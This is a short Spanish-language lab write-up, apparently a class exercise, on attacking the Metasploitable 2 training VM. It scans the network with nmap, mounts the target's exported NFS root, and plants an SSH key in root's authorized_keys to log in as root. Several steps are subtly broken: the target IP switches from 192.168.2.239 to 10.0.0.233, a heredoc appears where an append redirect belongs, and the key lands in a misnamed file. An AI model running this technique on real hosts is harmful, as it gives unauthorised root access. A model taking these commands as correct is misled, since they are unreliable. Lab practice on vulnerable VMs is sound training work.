 # Pentesting con Metasploitable 2

En esta tarea vamos a hacer pentesting en una máquina vulnerable **(Metasploitable 2)**.

## 1. Encontrar la máquina vulnerable

Entramos a nuestra máquina *kali linux* y hacemos un scanner de las máquinas disponibles.

```bash
sudo nmap -sN 192.168.2.0/24
```

Esto nos marcará las máquinas disponibles en la red. Veremos algo extraño que nos dirá que está es la máquina de metaexploitable.

![alt image](Capturas/1.png)

La máquina es 192.168.2.239/24

Montamos la unidad nfs en nuestro equipo

```bash
mkdir -p /mnt/metasploitable_share
sudo mount -o nolock 10.0.0.233:/ /mnt/metasploitable_share
```

![alt image](Capturas/3.png)

Con esto ya accedemos a /root/.ssh/authorized_keys

Creamos una ssh-keygen
```bash
ssh-keygen -t rsa
cat ~/.ssh/id_rsa.pub << autorized_keys
```

![alt image](Capturas/4.png)

```bash
sudo cp autorized_keys /mnt/metasploitable_share/root/.ssh/authorized
```

Finalmente haremos ssh y estaremos dentro.

![alt image](Capturas/5.png)


